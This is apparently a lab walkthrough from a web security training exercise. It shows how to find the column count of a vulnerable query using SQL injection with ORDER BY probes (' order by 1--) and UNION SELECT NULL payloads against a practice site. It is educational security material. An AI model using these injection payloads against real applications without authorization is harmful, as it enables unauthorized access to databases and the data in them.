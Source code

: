 # Lab: SQL injection UNION attack, determining the number of columns returned by the query

## Description

*This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.*

*To solve the lab, determine the number of columns returned by the query by performing an SQL injection UNION attack that returns an additional row containing null values.*

## Plan of Attack

In order to figure out how many columns I will use an order by clause. Once an injection point is located, I will be able to sequentially increase the number that I am ordering by, until the server throws an error. At the point I will know the previous number is the number of columns being returned in the query:

```sql
# Note '<injection point>--

' order by 1--
' order by 2--
' order by 3--
# When going to 4 an error is thrown, I therefore know there are 3 columns
```


## Finding the numer of Columns with order clauses

### Step 1. Verifying an injection point

With a single quote

![image](https://user-images.githubusercontent.com/83407557/169661686-3690cec0-ba02-4c01-b04d-71e7c1142838.png)

![image](https://user-images.githubusercontent.com/83407557/169661701-77e2f290-75b0-4254-8f3b-38b6d538cdc7.png)

With a single quote and a comment in sql

![image](https://user-images.githubusercontent.com/83407557/169661737-9fa2be01-8294-4b29-b4cf-e91f9b25572a.png)


![image](https://user-images.githubusercontent.com/83407557/169661749-0e8c654e-32fb-4e4b-abd3-f0f09b2f024e.png)

*Note that there is no error, telling me that I can run my own sql commands within these two characters as an "injection point"*

### Step 2. Use order by clauses until I get an error.

*Requests have been url-encoded*

```sql
order by 1
```

![image](https://user-images.githubusercontent.com/83407557/169661852-fd8899e8-fc28-4089-9ab9-fccf4fa86c2a.png)


![image](https://user-images.githubusercontent.com/83407557/169661860-8c3cd677-649e-41f3-93af-78620c9b7f42.png)


```sql
order by 2
```

![image](https://user-images.githubusercontent.com/83407557/169661883-8930b783-5660-4e36-adb9-065bf766d4c0.png)


![image](https://user-images.githubusercontent.com/83407557/169661894-4323d7b5-7298-4037-927d-3d3d3b7c42c4.png)

```sql
order by 3
```

![image](https://user-images.githubusercontent.com/83407557/169661909-504aaf96-0f8d-41db-8024-6b2dd2792122.png)


![image](https://user-images.githubusercontent.com/83407557/169661913-580fd8c7-d5da-408a-8e98-886a52fee4fb.png)


```sql
order by 4
```

![image](https://user-images.githubusercontent.com/83407557/169661933-b96916ae-af21-4fa1-8aa9-edbb46372137.png)


![image](https://user-images.githubusercontent.com/83407557/169661952-862c37a9-02e2-45fd-a013-a39937f5e8db.png)

this lets me know that there are 3 columns being returned by my query. The same thing can be achieved using UNION SELECT within sql and sending increasing number of NULL values seperated by commas until and error is thrown:

```sql
`UNION SELECT NULL--
`UNION SELECT NULL,NULL--
`UNION SELECT NULL,NULL,NULL--
```

### Determining number of columns with UNION SELECT and NULL values

since I already determined that there are three columns being returned, I can verify with two requests using UNION SELECT and NULL values, first with 3 nulls then with 4. If an error is not thrown on 3 nulls, but is on 4, I verify 3 columns.


```sql
`UNION SELECT NULL,NULL,NULL--
```

![image](https://user-images.githubusercontent.com/83407557/169662234-f55c4f1a-7c8a-430d-8e5b-1d9b811e53a9.png)

![image](https://user-images.githubusercontent.com/83407557/169662248-d104ef68-ac4d-4cd2-ab02-54f4fa8a6ba4.png)


```sql
`UNION SELECT NULL,NULL,NULL,NULL--
```

![image](https://user-images.githubusercontent.com/83407557/169662290-badf9c9a-3937-4567-b26e-1541ac2c9b7f.png)

![image](https://user-images.githubusercontent.com/83407557/169662315-8b6fb3a5-75e1-4817-89ca-0d05c03481af.png)

And the lab is solved!
